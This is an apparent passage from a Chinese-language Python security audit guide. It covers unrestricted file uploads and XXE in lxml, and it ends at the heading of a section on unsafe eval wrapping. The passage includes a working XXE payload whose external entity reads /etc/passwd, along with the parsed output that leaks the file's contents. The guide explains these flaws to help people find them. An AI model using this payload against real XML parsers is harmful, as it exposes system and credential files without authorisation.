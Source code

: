 * * *

1 任意文件上传
--------

这里主要是未限制文件大小，可能导致ddos，未限制文件后缀，导致任意文件上传，未给文件重命名，可能导致目录穿越，文件覆盖等问题。

2 xml，excel等上传
--------------

在我们的产品中经常用到xml来保存一些配置文件，同时也支持xml文件的导出导入，这样在libxml2.9以下就可能导致xxe漏洞。就拿lxml来说吧：

```
root@kali:~/python# cat test.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
    <node id="11" name="bb" net="192.168.0.2-192.168.0.37" ltd="" gid="" />test&xxe;</root>

>>> from lxml import etree
>>> tree1 = etree.parse('test.xml')
>>> print etree.tostring(tree1.getroot())
<root>
    <node id="11" name="bb" net="192.168.0.2-192.168.0.37" ltd="" gid=""/>testroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh

```

这是因为在lxml中默认采用的XMLParser导致的：

```
class XMLParser(_FeedParser)
|  XMLParser(self, encoding=None, attribute_defaults=False, dtd_validation=False, load_dtd=False, no_network=True, ns_clean=False, recover=False, XMLSchema schema=None, remove_blank_text=False, resolve_entities=True, remove_comments=False, remove_pis=False, strip_cdata=True, target=None, compact=True)

```

关注其中两个关键参数，其中`resolve_entities=True,no_network=True,`其中`resolve_entities=True`会导致解析实体，`no_network`会为True就导致了该利用条件比较有效，会导致一些ssrf问题，不能将数据带出。在python中`xml.dom.minidom,xml.etree.ElementTree`不受影响

0x08 不安全的封装
===========

* * *

1 eval 封装不彻底
------------

